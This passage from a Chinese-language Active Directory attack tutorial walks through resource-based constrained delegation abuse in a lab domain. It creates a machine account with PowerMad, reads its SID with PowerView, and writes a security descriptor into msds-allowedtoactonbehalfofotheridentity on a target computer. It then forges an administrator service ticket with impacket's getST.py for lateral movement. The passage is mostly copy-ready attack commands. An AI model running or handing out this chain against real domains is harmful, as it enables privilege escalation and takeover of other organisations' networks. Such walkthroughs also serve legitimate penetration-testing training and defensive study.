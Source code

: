 ![截图](f3b34cb403feab5c609bc222cdef56c2.png)

增加一个名为serviceA的用户，密码为123456：

```powershell
New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)
```

![截图](7e823e14bfc578d115b7c7c3d64e9639.png)

#### 4）获取其sid值

```powershell
Import-Module .\PowerView.ps1
Get-NetComputer serviceA -Properties objectsid
```

![截图](69ca50c50c46dcc664053810b40a026c.png)

其sid值为：S-1-5-21-1695257952-3088263962-2055235443-1602

#### 5）设置并修改该机器的属性

注意，这里再cd变量处要修该sid为对应的值！！ 而后在最后的Get-DomainComputer命令后的 DATA 代表着我们要横向移动的机器！

```powershell
Set-ExecutionPolicy Bypass -Scope Process
import-module .\powerview.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1695257952-3088263962-2055235443-1602)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![截图](41b95aaeb6bd69ef98cee08b6dac3b75.png)

此时就可以利用impacket的getst获取票据。

#### 6）获取票据

注意，在获取前，先设置好对应的hosts以免解析域名到外网了！

![截图](74ea506acd5399f022833d3590092b1a.png)

然后，输入以下命令生产票据：

```cmd
python getST.py -dc-ip 192.168.3.33 xiaodi.local/serviceA\$:123456 -spn cifs/data.xiaodi.local -impersonate administrator
```

![截图](03847b6e9efbbadfff791ff603897e46.png)
